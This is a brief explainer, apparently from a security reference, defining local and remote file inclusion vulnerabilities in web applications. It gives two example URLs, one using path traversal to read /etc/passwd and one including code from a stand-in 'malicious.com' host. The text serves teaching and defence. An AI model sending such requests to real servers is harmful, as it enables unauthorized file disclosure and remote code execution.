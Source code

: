 #### `File inclusion vulnerability`

File Inclusion Vulnerability, often referred to as Local File Inclusion (LFI) or Remote File Inclusion (RFI), is a type of security vulnerability that occurs when a web application allows an attacker to include files on the server through the web browser. This can have serious consequences, potentially leading to unauthorized access, data disclosure, or even remote code execution on the server.

# Example

http://example.com/page.php?file=../../../../etc/passwd

http://example.com/page.php?file=http://malicious.com/malicious-code.php
